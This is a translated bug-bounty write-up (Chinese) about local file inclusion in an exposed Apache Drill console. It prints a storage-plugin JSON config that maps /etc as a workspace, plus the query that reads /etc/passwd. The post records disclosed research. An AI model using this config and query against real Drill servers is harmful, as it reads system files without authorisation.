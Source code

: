 # 我们如何在阿帕奇演习中得到 LFI

> 原文：<https://infosecwriteups.com/how-we-got-lfi-in-apache-drill-recon-like-a-boss-6f739a79d87d?source=collection_archive---------0----------------------->

大家好，

正如我在上一篇博客中承诺的，今天我将写一些关于 LFI 的事情。特别感谢独一无二的乔伯特。

几个月前，我在 [**黑客**](https://hackerone.com) 平台收到了私人邀请。如你所知，侦查在入侵一个程序时起着重要的作用。Recon 并不总是意味着找到属于一个公司的子域名，它也可能涉及到发现一个公司是如何设置其属性和他们正在使用什么资源。

# 什么是 LFI？

```
Local File inclusion (LFI), or simply File Inclusion, refers to an inclusion attack through which an attacker can trick the web application in including files on the web server by exploiting functionality that dynamically includes local files or scripts. The consequence of a successful LFI attack includes Directory Traversal and Information Disclosure as well as Remote Code Execution.Typically, Local File Inclusion (LFI) occurs, when an application gets the path to the file that has to be included as an input without treating it as untrusted input. This would allow a local file to be supplied to the include statement.
```

在 shodan 和 crt.sh 中查找该域名后，我找到了一个，http://ec2-xx-xx-XXX-XXX . us-west-2 . compute . Amazon AWS . com:8047，并开始在那里挖掘，最初几个小时没有成功。后来我发现了像查询、存储标签这样的标签，所以我很快去了他们的文档，阅读所有的东西，以及它如何在[https://drill.apache.org/docs/](https://drill.apache.org/docs/)工作。

# 关于查询的几件事:

```
The query specifies the data source location and includes data casting.Specifying the Data Source Location ¶The optional [USE statement](https://drill.apache.org/docs/use) runs subsequent queries against a particular [storage plugin](https://drill.apache.org/docs/connect-a-data-source-introduction/). The USE statement typically saves typing some of the storage plugin information in the FROM statement. If you omit the USE statement, specify a storage plugin, such as dfs, and optionally a workspace, such as default, and a path to the data source using dot notation and back ticks. For example:
dfs.`default`.`/Users/drill-user/apache-drill-1.1.0/log/sqlline_queries.json`;
```

在理解了一些文件后，我向伟大的黑客 Jobert Abma(hacker one 的联合创始人)寻求帮助，他告诉我们可以试着得到 LFI。

等一会儿，听听音乐。

几分钟后，jobert 拿出了下面的 json 文件，这是他写的 dfs 存储方法:

```
{   "type": "file",  
 "enabled": true, 
  "connection": "file:///", 
  "config": null,   
"workspaces": {     "etc":
 {       "location": "/etc",
       "writable": false,
       "defaultInputFormat": "tsv"     } 
  },   "formats": {  
   "tsv": {     
  "type": "text",     
  "extensions": [ "tsv"], 
   "delimiter": "\t"   
  }   
}
}
```

从查询选项卡中调用它

比如:

```
select * from dfs.etc.`passwd`
```

哇哦！我们只有:

![](img/6ac9ed57e2f4d079cbaa3ca64239addc.png)

所以，是时候狂欢了！

然后，我们尝试使用多个 json 文件作为 dfs 存储方法，并获得了成功。

呜哇呜！

我一直相信分享就是关爱，我一直在向多位安全研究人员学习。希望你喜欢这个发现。更多的人来了。敬请关注。DM 在 twitter ( [Gujjuboy10x00](https://medium.com/u/7678f2f901d4?source=post_page-----6f739a79d87d--------------------------------) ，hackerone.com/gujjuboy10x00)上对任何问题都是开放的。